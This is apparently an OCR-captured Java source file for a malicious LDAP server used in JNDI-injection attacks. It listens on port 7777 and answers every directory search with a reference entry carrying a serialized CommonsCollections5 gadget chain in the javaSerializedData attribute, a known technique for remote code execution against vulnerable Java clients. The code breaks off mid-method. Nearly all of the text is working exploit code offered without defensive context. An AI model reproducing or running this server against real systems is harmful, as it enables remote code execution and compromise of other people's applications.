```java
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class ldap_server191 {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 7777;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());
```